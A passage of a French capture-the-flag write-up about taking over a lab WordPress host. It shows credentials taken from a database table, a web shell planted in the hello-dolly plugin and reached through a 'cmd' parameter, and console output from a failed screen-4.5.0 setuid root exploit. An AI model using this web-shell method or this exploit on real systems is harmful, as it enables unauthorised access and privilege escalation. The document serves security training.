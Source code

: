 Dans la base de données Wordpress je trouve une table inhabituelle nommée `wp_cracked` et qui contient l'identifiant `fs0ft` / `fs0f@2020!@`.

Ce couple utilisateur / mot de passe permet de se connecter sur le Wordpress. L'utilisateur semble être administrateur puisqu'il est possible d'éditer les fichiers de thèmes.

J'ai fait le tour des différents thèmes sans trouver de fichiers modifiables (les permissions sur le système de fichier sont insufisantes). Finalement j'ai pu éditer un fichier du plugin `hello-dolly` (`hello-dolly/hello.php`) ce qui m'a permis d'obtenir ma RCE :

`/blog/wp-content/plugins/hello-dolly/hello.php?cmd=id`

## vim exploit.sh

LinPEAS repère rapidement un binaire setuid inhabituel :

`-rwsr-xr-x 1 root root 1.7M Nov 24  2019 /usr/bin/screen-4.5.0 (Unknown SUID binary)`

On est exactement sur le même scénario que pour le CTF [Nully Cybersecurity](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Nully%20Cybersecurity%20de%20VulnHub.md).

On s'empresse de récupérer l'exploit pour cette version de screen mais ça cafouille :

```bash
www-data@fsoft:/tmp$ ./screen_exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
collect2: fatal error: cannot find 'ld'
compilation terminated.
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
collect2: fatal error: cannot find 'ld'
compilation terminated.
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '/tmp/libhax.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
No Sockets found in /run/screen/S-www-data.
```